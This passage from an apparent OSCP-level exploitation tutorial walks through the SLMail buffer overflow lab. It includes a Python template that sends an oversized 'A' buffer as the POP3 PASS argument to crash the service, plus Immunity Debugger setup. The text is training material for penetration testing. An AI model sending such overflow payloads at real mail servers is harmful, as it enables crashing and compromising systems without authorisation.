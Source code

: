 # Windows Exploiting (Basic Guide - OSCP lvl)

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

## **Start installing the SLMail service**

## Restart SLMail service

Every time you need to **restart the service SLMail** you can do it using the windows console:

```
net start slmail
```

![](<../.gitbook/assets/image (23) (1).png>)

## Very basic python exploit template

```python
#!/usr/bin/python

import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
ip = '10.11.25.153'
port = 110

buffer = 'A' * 2700
try:
    print "\nLaunching exploit..."
    s.connect((ip, port))
    data = s.recv(1024)
    s.send('USER username' +'\r\n')
    data = s.recv(1024)
    s.send('PASS ' + buffer + '\r\n')
    print "\nFinished!."
except:
    print "Could not connect to "+ip+":"+port
```

## **Change Immunity Debugger Font**

Go to `Options >> Appearance >> Fonts >> Change(Consolas, Blod, 9) >> OK`

## **Attach the proces to Immunity Debugger:**
